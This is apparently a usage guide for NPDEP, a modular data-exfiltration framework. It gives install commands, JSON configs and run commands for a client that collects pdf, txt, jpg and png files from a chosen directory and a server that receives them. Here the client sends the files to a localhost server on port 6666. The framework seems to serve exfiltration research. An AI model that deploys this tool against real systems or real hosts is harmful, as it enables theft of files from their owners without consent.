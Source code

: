 # Usage

[Start](../README.md)

- [Usage](#usage)
  - [Introduction](#introduction)
  - [Execution](#execution)

## Introduction

The following steps describe how to use NPDEP with modules like the ones created in the [DEP case study](case_study.md).

## Execution

The following commands are installing all necessary components:

```cmd
pip install npdep-client
pip install npdep-server
pip install npdep-receiver
pip install npdep-sourcing
pip install npdep-transfer
```

After installation you need to create a config file for `npdep-client`:

```json
// npdep-client-config.json
{   
    "sourcing": {
        "module": {
            "name": "FoiModule",
            "options": {
                "files": ["pdf, txt, jpg, png"], // Use file types of your choice
                "path": "path/to/interesting/data" // Change to a path you want 
                                                   // to search
            }
        }
    },
    "transfer": {
        "module": {
            "name": "DepFileExfiltration",
            "options": {
                "ip": "127.0.0.1", // For testing purposes we use localhost here
                "port": 6666,
                "pkgSize": 1321
            }
        }
    }
}
```

As well as a config file for `npdep-server`:

```json
// npdep-server-config.json
{   
    "modules": [
        {
            "name": "DepReceiver",
            "options": {
                "ip": "127.0.0.1", // For testing purposes we use localhost here
                "port": 6666,
                "savePath": "path/to/npdep/dep" // Change to a path you
                                                // want to save the exfiltrated
                                                // files
            }
        }
    ]
}
```

With the following command we are now going to use `FoiModule` sourcing module to collect all `pdf|txt|jpg|png` file paths under `path/to/interesting/data` and providing them to `DepFileExfiltration` transfer module sending the data to `127.0.0.1:6666` with a chunk size of `1321`.

To start the server use the following command:

```cmd
python3 -m npdep-server -c npdep-server-config.json
```

As soon as the server is up and running use the following command to start the client:

```cmd
python3 -m npdep-client -c npdep-client-config.json
```
After client finished it's work, the exfiltrated `pdf|txt|jpg|png` files are now located under `path/to/npdep/dep` and from this directory saved under they original path. 
